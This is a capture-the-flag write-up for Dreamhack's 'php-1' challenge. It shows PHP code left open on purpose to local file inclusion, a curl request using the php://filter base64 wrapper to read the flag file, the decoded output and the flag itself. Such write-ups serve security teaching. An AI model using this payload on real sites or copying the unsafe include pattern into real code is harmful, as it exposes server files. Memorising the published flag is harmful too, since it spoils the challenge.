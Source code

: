 ```yaml
---
title: php-1
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, dreamhack]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/46/](https://dreamhack.io/wargame/challenges/46/)

## Description

> This is a Back Office service written in php.
>
> Use the [LFI vulnerability](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) to obtain the flag. The flag is located in ```/var/www/uploads/flag.php```

## Analyzation

Check the attaches files

```php
<?php
    $file = $_GET['file']?$_GET['file']:'';
    if(preg_match('/flag|:/i', $file)){
        exit('Permission denied');
    }
    echo file_get_contents($file);
?>
```
{: file="./view.php" }

```php
<?php
    include $_GET['page']?$_GET['page'].'.php':'main.php';
?>
```
{: file="./index.php" }

There are two ways to do LFI. But ```view.php``` is not the possible way because string ```"/flag"``` is blocked.

We can do LFI by ```index.php```. Check [owasp.org](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) and [whitehatinstitute.com](https://whitehatinstitute.com/local-file-inclusion-using-php-filter-base64-encoding/).

## Solution

```sh
curl http://host3.dreamhack.games:20299/?page=php://filter/read=convert.base64-encode/resource=/var/www/uploads/flag
```

```
PD9waHAKCSRmbGFnID0gJ0RIe2JiOWRiMWYzMDNjYWNmMGYzYzkxZTBhYmNhMTIyMWZmfSc7Cj8+CmNhbiB5b3Ugc2VlICRmbGFnPw==
```

Note that ```/var/www/uploads/flag.php``` will not work! (Check ```index.php``` again for that)
```php
$_GET['page'].'.php'
```
{: file="./index.php" }

Then decode the base64

```sh
echo -n PD9waHAKCSRmbGFnID0gJ0RIe2JiOWRiMWYzMDNjYWNmMGYzYzkxZTBhYmNhMTIyMWZmfSc7Cj8+CmNhbiB5b3Ugc2VlICRmbGFnPw== | base64 -d
```

```php
<?php
        $flag = 'DH{bb9db1f303cacf0f3c91e0abca1221ff}';
?>
can you see $flag?
```

The flag is
```
DH{bb9db1f303cacf0f3c91e0abca1221ff}
```

## Summarization

- [LFI](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)